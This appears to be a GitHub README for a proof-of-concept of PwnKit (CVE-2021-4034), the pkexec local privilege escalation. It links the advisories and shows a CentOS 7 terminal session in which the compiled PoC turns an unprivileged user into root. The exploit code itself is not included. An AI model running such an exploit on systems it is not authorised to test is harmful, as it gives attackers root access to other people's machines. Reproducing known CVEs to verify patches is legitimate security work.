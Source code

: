 # CVE-2021-4034
PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034)

https://github.com/arthepsy/CVE-2021-4034
https://seclists.org/oss-sec/2022/q1/80  
https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

# PoC

```
[user@centos ~]$ grep PRETTY /etc/os-release
PRETTY_NAME="CentOS Linux 7 (Core)"
[user@centos ~]$ id
uid=1005(sqs) gid=1005(sqs) 组=1005(sqs)
[user@centos ~]$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
[user@centos ~]$ ./cve-2021-4034-poc
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),1005(sqs)
sh-4.2# exit
```
## Disclaimer
I am not the author of this exploit.If there is any infringement, please contact me.
